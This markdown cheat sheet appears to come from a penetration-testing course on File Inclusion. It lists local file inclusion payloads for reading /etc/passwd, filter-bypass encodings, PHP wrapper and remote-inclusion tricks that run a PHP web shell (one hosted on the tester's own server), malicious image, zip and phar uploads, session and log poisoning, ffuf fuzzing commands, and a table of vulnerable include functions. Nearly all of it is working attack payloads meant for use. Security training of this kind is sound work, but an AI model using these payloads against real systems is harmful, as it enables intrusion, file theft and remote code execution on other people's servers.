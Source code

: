 # File Inclusion

## Local File Inclusion

| **Command**                                                                                       | **Description**                                                       |
| ------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------- |
| **Basic LFI**                                                                                     |                                                                       |
| `/index.php?language=/etc/passwd`                                                                 | Basic LFI                                                             |
| `/index.php?language=../../../../etc/passwd`                                                      | LFI with path traversal                                               |
| `/index.php?language=/../../../etc/passwd`                                                        | LFI with name prefix                                                  |
| `/index.php?language=./languages/../../../../etc/passwd`                                          | LFI with approved path                                                |
| **LFI Bypasses**                                                                                  |                                                                       |
| `/index.php?language=....//....//....//....//etc/passwd`                                          | Bypass basic path traversal filter                                    |
| `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`          | Bypass filters with URL encoding                                      |
| `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]` | Bypass appended extension with path truncation (obsolete)<sup>1</sup> |
| `/index.php?language=../../../../etc/passwd%00`                                                   | Bypass appended extension with null byte (obsolete)                   |
| `/index.php?language=php://filter/read=convert.base64-encode/resource=config`                     | Read PHP with base64 filter                                           |

## Remote Code Execution

| **Command**                                                                                                                 | **Description**                       |
| --------------------------------------------------------------------------------------------------------------------------- | ------------------------------------- |
| **PHP Wrappers**                                                                                                            |                                       |
| `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`                    | RCE with data wrapper<sup>2</sup>     |
| `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | RCE with input wrapper                |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`                                                        | RCE with expect wrapper               |
| **RFI**                                                                                                                     |                                       |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>`                              | Host web shell                        |
| `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`                                                     | Include remote PHP web shell          |
| **LFI + Upload**                                                                                                            |                                       |
| `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`                                                                     | Create malicious image                |
| `/index.php?language=./profile_images/shell.gif&cmd=id`                                                                     | RCE with malicious uploaded image     |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`                                              | Create malicious zip archive 'as jpg' |
| `/index.php?language=zip://shell.zip%23shell.php&cmd=id`                                                                    | RCE with malicious uploaded zip       |
| `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`                                                         | Create malicious phar 'as jpg'        |
| `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`                                                  | RCE with malicious uploaded phar      |
| **Log Poisoning**                                                                                                           |                                       |
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`                                                 | Read PHP session parameters           |
| `/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`                                               | Poison PHP session with web shell     |
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`                                          | RCE through poisoned PHP session      |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'`                                         | Poison server log                     |
| `/index.php?language=/var/log/apache2/access.log&cmd=id`                                                                    | RCE through poisoned PHP session      |

## Misc

| **Command**                                                                                                                                                                          | **Description**            |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------- |
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287`                                      | Fuzz page parameters       |
| `ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`                                                      | Fuzz LFI payloads          |
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287` | Fuzz webroot path          |
| `ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287`                                                                      | Fuzz server configurations |
| [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)                                                                                                  |                            |
| [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)                                                                                |                            |
| [Webroot path wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)                                 |                            |
| [Webroot path wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)                             |                            |
| [Server configurations wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)                                                    |                            |
| [Server configurations wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)                                                |                            |

## File Inclusion Functions

| **Function**               | **Read Content** | **Execute** | **Remote URL** |
| -------------------------- | ---------------- | ----------- | -------------- |
| **PHP**                    |                  |             |                |
| `include()/include_once()` | Yes              | Yes         | Yes            |
| `require()/require_once()` | Yes              | Yes         | No             |
| `file_get_contents()`      | Yes              | No          | Yes            |
| `fopen()/file()`           | Yes              | No          | No             |
| **NodeJS**                 |                  |             |                |
| `fs.readFile()`            | Yes              | No          | No             |
| `fs.sendFile()`            | Yes              | No          | No             |
| `res.render()`             | Yes              | Yes         | No             |
| **Java**                   |                  |             |                |
| `include`                  | Yes              | No          | No             |
| `import`                   | Yes              | Yes         | Yes            |
| **.NET**                   |                  |             |                |
| `@Html.Partial()`          | Yes              | No          | No             |
| `@Html.RemotePartial()`    | Yes              | No          | Yes            |
| `Response.WriteFile()`     | Yes              | No          | No             |
| `include`                  | Yes              | Yes         | Yes            |
